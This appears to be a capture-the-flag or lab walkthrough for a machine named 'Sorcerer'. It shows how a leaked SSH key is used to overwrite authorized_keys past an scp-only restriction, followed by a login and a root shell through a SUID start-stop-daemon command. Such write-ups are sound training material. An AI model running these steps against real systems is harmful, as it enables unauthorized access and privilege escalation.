


# Sorcerer

* enumerate directories. 

* we get user home files in :7742/zipfiles.

* Have id_rsa for max user. But ssh access is denied. Only scp is allowed (scp_wrapper)



* Edit it.



* Now send the edited authorized file to over write it in max .ssh folder.

```
┌──(kali㉿kali)-[~/…/sorcerer/home/max/.ssh]
└─$ scp -O -i id_rsa authorized_keys max@192.168.213.100:/home/max/.ssh/authorized_keys
authorized_keys                                                       100%  738     7.1KB/s   00:00    
                                                                                                     
```

* -O is for file transfer (legacy)

* Login
```
┌──(kali㉿kali)-[~/…/sorcerer/home/max/.ssh]
└─$ ssh -i id_rsa max@192.168.213.100                                                  
max@sorcerer:~$ id
uid=1003(max) gid=1003(max) groups=1003(max)
```

* Priv-Esc -> suid set for /usr/sbin/start-stop-daemon

* https://gtfobins.github.io/gtfobins/start-stop-daemon/
                                                                                                     
```
/usr/sbin/start-stop-daemon -S -x /bin/sh -- -p
```

* Get root                                                                                        
